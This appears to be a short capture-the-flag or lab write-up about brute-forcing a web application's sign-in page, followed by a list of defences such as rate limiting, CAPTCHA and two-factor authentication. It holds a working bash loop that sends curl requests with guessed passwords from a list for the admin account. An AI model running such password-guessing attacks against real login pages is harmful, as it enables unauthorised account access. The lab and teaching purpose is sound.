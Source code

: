 # Brute force

## Method
We will bruteforce entry on the login page [http://10.203.72.119/index.php?page=signin](http://10.203.72.119/index.php?page=signin "signin page")

To brute force we can use the following bash script
``` bash
#!/bin/bash

while read passwords
do
	curl "http://192.168.8.122/index.php?page=signin&username=admin&password=${passwords}&Login=Login#" | grep "flag"
	
done < passwords.txt
```
Which will try a combination of passwords from the ***password.txt*** with username ***admin***, then tries to get the flag to see if which password had us logged in.

## Solution
To prevent this action a user must have a difficult password, atleast a uppercase, special characters, the password must be lengthy, conatain a number, and must not be common dictionary words. The more complicated the password is the better. The web application must limit the login attempt, considerably 3 passwords at a time, and maybe resume the login after 30sec if the user fails to enter the right credentails. Use OTPs, use Captcha, or two Factor authentification.